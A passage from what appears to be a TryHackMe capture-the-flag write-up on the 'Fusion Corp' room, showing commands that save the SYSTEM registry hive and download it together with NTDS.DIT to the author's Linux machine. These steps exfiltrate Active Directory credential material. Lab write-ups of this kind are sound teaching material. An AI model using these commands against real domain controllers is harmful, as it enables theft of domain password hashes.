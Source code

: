 ![image.png](/assets/images/FusionCorpTHM/image%2026.png)

Also saved the system hive file to our temp directory.

```bash
reg save hklm\system c:\temp\system
```

![image.png](/assets/images/FusionCorpTHM/image%2027.png)

Now after saving NTDS.DIT and SYSTEM hives, we can download them to our local linux box (mine’s parrot).

```bash
download ntds.dit
download system
```

![image.png](/assets/images/FusionCorpTHM/image%2028.png)
